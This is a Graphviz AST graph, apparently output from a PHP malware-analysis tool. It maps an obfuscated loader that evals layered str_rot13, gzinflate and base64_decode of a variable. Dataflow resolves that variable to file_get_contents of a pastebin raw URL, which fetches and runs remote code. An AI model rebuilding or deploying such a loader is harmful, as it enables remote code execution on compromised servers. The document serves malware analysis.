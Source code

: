 digraph ast {
node [shape=none];
66143729 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143729</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>str_rot13</TD></TR></TABLE>>];
66143729 -> 66143713 [weight=2];
66143729 -> 66143727 [weight=2];
66143728 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143728</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
66143728 -> 66143726 [weight=2];
66143731 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143731</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
66143731 -> 66143729 [weight=2];
66143730 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143730</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
66143730 -> 66143731 [weight=2];
66143732 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143732</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5'>Patterns</TD><TD border='0' cellpadding='5'>[1, 27]</TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
66143732 -> 66143712 [weight=2];
66143732 -> 66143730 [weight=2];
66143713 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143713</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>str_rot13</TD></TR></TABLE>>];
66143712 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143712</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
66143715 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143715</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>str_rot13</TD></TR></TABLE>>];
66143907 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143907</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>file_get_contents</TD></TR></TABLE>>];
66143907 -> 66143908 [weight=2];
66143907 -> 66143909 [weight=2];
66143714 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143714</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>gzinflate</TD></TR></TABLE>>];
66143717 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143717</TD><TD border='0'><B>Variable</B></TD></TR><HR/><TR><TD border='0' cellpadding='5'>(0, 495961)</TD><TD border='0' cellpadding='5'>xmlrpc</TD></TR></TABLE>>];
66143909 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143909</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
66143909 -> 66143910 [weight=2];
66143716 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143716</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
66143908 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143908</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>file_get_contents</TD></TR></TABLE>>];
66143719 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143719</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
66143719 -> 66143717 [weight=2];
66143719 -> 66143912 [style=dotted,label=DynamicResolution];
66143719 -> 66143907 [style=dotted,label=DataflowResolution];
66143911 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143911</TD><TD border='0'><B>StringLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>http:pastebin.comraw2D2f2z6H</TD></TR></TABLE>>];
66143718 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143718</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
66143718 -> 66143719 [weight=2];
66143910 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143910</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
66143910 -> 66143911 [weight=2];
66143721 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143721</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
66143721 -> 66143722 [weight=2];
66143720 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143720</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
66143720 -> 66143716 [weight=2];
66143720 -> 66143718 [weight=2];
66143912 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' bgcolor='#FFCCCC' ><TR><TD border='0'>66143912</TD><TD border='0'><B>DecodeFailed</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>FuncIdUnknown</TD></TR></TABLE>>];
66143723 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143723</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>str_rot13</TD></TR></TABLE>>];
66143723 -> 66143715 [weight=2];
66143723 -> 66143721 [weight=2];
66143722 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143722</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
66143722 -> 66143720 [weight=2];
66143725 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143725</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
66143725 -> 66143723 [weight=2];
66143724 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143724</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
66143724 -> 66143725 [weight=2];
66143727 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143727</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
66143727 -> 66143728 [weight=2];
66143726 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>66143726</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>gzinflate</TD></TR></TABLE>>];
66143726 -> 66143714 [weight=2];
66143726 -> 66143724 [weight=2];
}
